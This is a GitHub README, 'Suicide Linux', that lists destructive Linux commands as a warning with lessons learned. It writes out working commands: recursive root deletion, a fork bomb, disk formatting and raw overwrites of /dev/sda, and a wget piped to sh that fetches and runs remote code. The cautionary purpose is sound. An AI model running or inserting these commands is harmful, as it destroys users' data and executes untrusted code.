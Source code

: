 :bomb: Suicide Linux
=====================

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

by Daniele Olmisani, 2017

Some of these commands need administration rights (e.g. sudo ...) to be executed, some Linux distributions enforce specific protection mechanisms. So it is not so simple to destroy your Linux machine, but pay attention in any case. 

## :warning: Warning!! :warning:
> Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.

![Penguin](linux.png)

#### :one: Wipeout!

`rm -fR /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


#### :two: Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.

More simple, but same effects:

`perl -e 'fork while true;'`


#### :three: Tabula rasa

`mkfs.ext4 /dev/sda1`

Do you remember `FORMAT C:` of the old DOS? this have the same result.

#### :four: Right Time, but Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


#### :five: Collecting Junk is a Dirty Job

`dd if=/dev/random of=/dev/sda`


#### :six: Have to start again

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


#### :seven: Danger from the Outside

`wget http://example.com/something -O – | sh –`


#### :eight: No More Busy

`find / -name busybox -exec rm -f {} \;`

#### :nine: Kernel, Don't Panic

`cat /dev/port`

The simplest way to freeze your system.


## :pencil: Lessons Learned
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content
* there should be a good reason if your administrator password is requested 


## :books: References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
